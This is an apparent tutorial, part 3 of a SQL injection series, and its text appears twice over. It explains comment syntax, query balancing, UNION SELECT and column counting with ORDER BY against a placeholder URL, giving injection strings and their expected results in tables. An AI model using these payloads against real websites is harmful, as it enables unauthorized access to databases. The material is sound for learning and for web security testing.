


Welcome to the third part of basics of SQL for SQL injection. As in the last part we took this url "http://fakesite.com/report.php?id=23" as an example and then assumed some basic queries by looking at the URL and then we tried different injections and learnt how to figure out which type of query we are facing. In this tutorial we will learn how we can understand which comment type we should use and why and how to find the number of columns
As discussed earlier following are the different types of comments used in SQLi.
well actually it only depends on the environment and reaction of application when we try some commenting operators. If you see php is used then usually "--" will surely work other wise you can check "--+" or "# (url encoded)", else the best option is to try with different types of comments and analyse the input. So what we will do to check is try to close our input with all possibilities like single quote double quote or brackets etc, and comment rest query and if it works then we can be sure that this comment is working. We will again take the same url for example "http://fakesite.com/report.php?id=23" so lets see how can we check for which comment to use.
so as i showed above test for '--' type comment in the same manner you can check for all commenting types and the one which gives same output as giving with "http://fakesite.com/report.php?id=23" then that can help you understand the type of internal query alongwith the comment that you can use.
Now as we have understood understanding and knowing the internal query and then finding the type of command we can use. First of all we will understand the basics of injecting.
Any time anywhere or any application where ever and whenever you are injecting there are following three basic rules of injecting
[1]. Balance.
[2]. Inject.
[3]. Commenting.
Understanding the first phase "Balance":
In this phase we balance the internal query, for example lets say after reading the Part 1 and Part 2 we understand that how can we assume and figure out the internal query used by the application where your input is injected. Lets say we figured out that out internal query is "Select * from tablename where id=('23')" so in this case our balance input should be 23').
The phase of Injection:
In this phase we inject as per our requirement, and the type of injection we are doing.
The phase of Commenting:
Then the last part of commenting, which we already know. Now check the below image which will show you all the three parts on injection.

As per the Above Injection we can assume the internal query to be:
So now lets start with our next phase, in this phase we will learn why and how to find the number of columns. First lets start by understanding why we require to find the number of columns. First again lets start from the basics our example database:

Output will be:
Now lets see how we can manipulate the output using Union statement. Union is used to add the output of multiple queries together. For Example Below is a simple union query.
Output will be:
So what the union query did over here is it concatenated output of two different Select queries. But one thing to remember while concatenating, that Union will only concatenate if both queries are outputting same numbers of columns. Lets try some more.
Output will be:
Output will be:
Output will be:
Output will be:
for the above one there wont be any output but only an error that "The used SELECT statements have a different number of columns", because "select * from students" is selecting all the columns from the table students which are four, that is why when we tried to union 2 columns with it, we got an error. Union select is used to concatenate our injected output with the real output. Here we face a problem that we must know the number of columns select query is using so that we can make the right union select statement. Here enters the "order by" keyword. Order by is used to sort the output of a query lets see some examples.
So we have analysed above that if we try to sort our output with any number which is more than our column count then it will create error. So we can easily understand that we can use order by to know how many columns we have inside the query.
Now again lets take an example URL "http://fakesite.com/report.php?id=23" and start injecting it from starting:
[#] Testing
So as we learnt from Part 2 we tested this URL and understood that its a Intiger Based Query. We can make an assumption like below.
Now let us try and see which comment type we can use. As we already know that input is intiger type and is not enclosed by any single or double qoute so we will be testing for intiger type injection only and wont have to close any single or double qoute this time.
As we learnt while testing for comment type we can understand with the above output that --+ can be used over here as comment. So as we can see whatever we inject in URL gets injected in the query. Our next task starts here. As now we need to use Union Select statement so that we can manipulate the output and print whatever we want to extract about and from the database. But to use Union select we must know the number of columns used under the query. For that we will use 'Order By' as we know if we give order by a number more than the number under the query, then it will throw an error.
We already know that 5 worked so we dont need to reduce and test again. We can simply understand that 5 is the last number that worked. Now we can use Union select query, which will be the next phase of our injection. Thats all for this part. We will continue our Journey to SQLi in next part.

Author : Zenodermus Javanicus
Date : 2014-03-10
As discussed earlier following are the different types of comments used in SQLi.
| Comment | Name | |
|---|---|---|
| -- | : | MySQL Linux Style |
| --+ | : | MySQL Windows Style |
| # | : | Hash (URL encode while use) |
| --+- | : | SQL Comment |
| ;%00 | : | Null Byte |
| ` | : | Backtick |
well actually it only depends on the environment and reaction of application when we try some commenting operators. If you see php is used then usually "--" will surely work other wise you can check "--+" or "# (url encoded)", else the best option is to try with different types of comments and analyse the input. So what we will do to check is try to close our input with all possibilities like single quote double quote or brackets etc, and comment rest query and if it works then we can be sure that this comment is working. We will again take the same url for example "http://fakesite.com/report.php?id=23" so lets see how can we check for which comment to use.
| Injection | If it gives same Output as 23 was giving then | |
|---|---|---|
| http://fakesite.com/report.php?id=23-- | : | Its intiger type injection and '--' can be used as comment |
| http://fakesite.com/report.php?id=23'-- | : | Its Single quote type injection and '--' can be used as comment |
| http://fakesite.com/report.php?id=23"-- | : | Its Double quote type injection and '--' can be used as comment |
| http://fakesite.com/report.php?id=23)-- | : | Its intiger type with bracket injection and '--' can be used as comment |
| http://fakesite.com/report.php?id=23')-- | : | Its Single quote with bracket type injection and '--' can be used as comment |
| http://fakesite.com/report.php?id=23")-- | : | Its Double quote with bracket type injection and '--' can be used as comment |
so as i showed above test for '--' type comment in the same manner you can check for all commenting types and the one which gives same output as giving with "http://fakesite.com/report.php?id=23" then that can help you understand the type of internal query alongwith the comment that you can use.
Now as we have understood understanding and knowing the internal query and then finding the type of command we can use. First of all we will understand the basics of injecting.
Any time anywhere or any application where ever and whenever you are injecting there are following three basic rules of injecting
[1]. Balance.
[2]. Inject.
[3]. Commenting.
Understanding the first phase "Balance":
In this phase we balance the internal query, for example lets say after reading the Part 1 and Part 2 we understand that how can we assume and figure out the internal query used by the application where your input is injected. Lets say we figured out that out internal query is "Select * from tablename where id=('23')" so in this case our balance input should be 23').
The phase of Injection:
In this phase we inject as per our requirement, and the type of injection we are doing.
The phase of Commenting:
Then the last part of commenting, which we already know. Now check the below image which will show you all the three parts on injection.
As per the Above Injection we can assume the internal query to be:
Select * from tablename where id='<input>'
So when we pass the url "http://fakesite.com/report.php?id=23' order by 1--+" then it will be injected on place of <input> in above query and become:
Select * from tablename where id='23' order by 1--+'
So now lets start with our next phase, in this phase we will learn why and how to find the number of columns. First lets start by understanding why we require to find the number of columns. First again lets start from the basics our example database:

Select f_name,l_name from students where id=1
Output will be:
| f_name | l_name |
|---|---|
| Emily | watson |
Now lets see how we can manipulate the output using Union statement. Union is used to add the output of multiple queries together. For Example Below is a simple union query.
Select f_name,l_name from students where id=1 union select f_name,l_name from students where id=2
Output will be:
| f_name | l_name |
|---|---|
| Emily | watson |
| Deniel | Robertson |
So what the union query did over here is it concatenated output of two different Select queries. But one thing to remember while concatenating, that Union will only concatenate if both queries are outputting same numbers of columns. Lets try some more.
Select f_name,l_name from students where id=1 union select 1,2
Output will be:
| f_name | l_name |
|---|---|
| Emily | watson |
| 1 | 2 |
Select f_name,l_name from students where id=1 union select 'hello','bye'
Output will be:
| f_name | l_name |
|---|---|
| Emily | watson |
| hello | bye |
Select f_name,l_name from students where id=1 union select 5545,2323
Output will be:
| f_name | l_name |
|---|---|
| Emily | watson |
| 5545 | 2323 |
Select f_name,l_name from students where id=1 union select database(),user()
Output will be:
| f_name | l_name |
|---|---|
| Emily | watson |
| fakedb1 | [email protected] |
Select * from students where id=1 union select f_name,l_name from students where id=2
for the above one there wont be any output but only an error that "The used SELECT statements have a different number of columns", because "select * from students" is selecting all the columns from the table students which are four, that is why when we tried to union 2 columns with it, we got an error. Union select is used to concatenate our injected output with the real output. Here we face a problem that we must know the number of columns select query is using so that we can make the right union select statement. Here enters the "order by" keyword. Order by is used to sort the output of a query lets see some examples.
| Query | Output | |
|---|---|---|
| select * from students order by 1 | : | It will output all the rows and sort then by the first column which is id |
| select * from students order by 2 | : | It will output all the rows and sort then by the second column which is f_name |
| select * from students order by 3 | : | It will output all the rows and sort then by the third column which is l_name |
| select * from students order by 4 | : | It will output all the rows and sort then by the forth column which is roll_no |
| select * from students order by 5 | : | It will create an error "Unknown column '5' in 'order clause'" |
| select f_name,l_name from students order by 1 | : | It will output all the rows and sort then by the first column which is f_name |
| select f_name,l_name from students order by 2 | : | It will output all the rows and sort then by the second column which is l_name |
| select f_name,l_name from students order by 3 | : | It will create an error "Unknown column '3' in 'order clause'" |
So we have analysed above that if we try to sort our output with any number which is more than our column count then it will create error. So we can easily understand that we can use order by to know how many columns we have inside the query.
Now again lets take an example URL "http://fakesite.com/report.php?id=23" and start injecting it from starting:
[#] Testing
| Query | Output | |
|---|---|---|
| http://fakesite.com/report.php?id=23 | : | Simple Output from Web-Application |
| http://fakesite.com/report.php?id=23' | : | Error "You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1" |
| http://fakesite.com/report.php?id=23" | : | Error "You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"' at line 1" |
| http://fakesite.com/report.php?id=23 and true | : | As we remember in Part 2 while testing internal query if error comes with both single and double qoute then the internal query could be intiger based, so now testing for that. It Gives output |
| http://fakesite.com/report.php?id=23 and false | : | No Output |
So as we learnt from Part 2 we tested this URL and understood that its a Intiger Based Query. We can make an assumption like below.
Select * from anytablename where id=<Input>
Now let us try and see which comment type we can use. As we already know that input is intiger type and is not enclosed by any single or double qoute so we will be testing for intiger type injection only and wont have to close any single or double qoute this time.
| Query | Output | |
|---|---|---|
| http://fakesite.com/report.php?id=23` | : | Backtick type commenting (Error) |
| http://fakesite.com/report.php?id=23-- | : | Error or no Output |
| http://fakesite.com/report.php?id=23--+ | : | Same Output like 23 was giving |
| http://fakesite.com/report.php?id=23 or true--+ | : | No error but some different output |
As we learnt while testing for comment type we can understand with the above output that --+ can be used over here as comment. So as we can see whatever we inject in URL gets injected in the query. Our next task starts here. As now we need to use Union Select statement so that we can manipulate the output and print whatever we want to extract about and from the database. But to use Union select we must know the number of columns used under the query. For that we will use 'Order By' as we know if we give order by a number more than the number under the query, then it will throw an error.
| URL Injection | Internal Query | Output |
|---|---|---|
| http://fakesite.com/report.php?id=23 order by 10--+ | Select * from tablename where id=23 order by 10 | Error (then reduce) |
| http://fakesite.com/report.php?id=23 order by 1--+ | Select * from tablename where id=23 order by 1 | Working (then increse) |
| http://fakesite.com/report.php?id=23 order by 5--+ | Select * from tablename where id=23 order by 5 | Working (then increase) |
| http://fakesite.com/report.php?id=23 order by 8--+ | Select * from tablename where id=23 order by 8 | Error (then reduce) |
| http://fakesite.com/report.php?id=23 order by 6--+ | Select * from tablename where id=23 order by 6 | Error (then reduce) |
We already know that 5 worked so we dont need to reduce and test again. We can simply understand that 5 is the last number that worked. Now we can use Union select query, which will be the next phase of our injection. Thats all for this part. We will continue our Journey to SQLi in next part.
Author : Zenodermus Javanicus
Date : 2014-03-10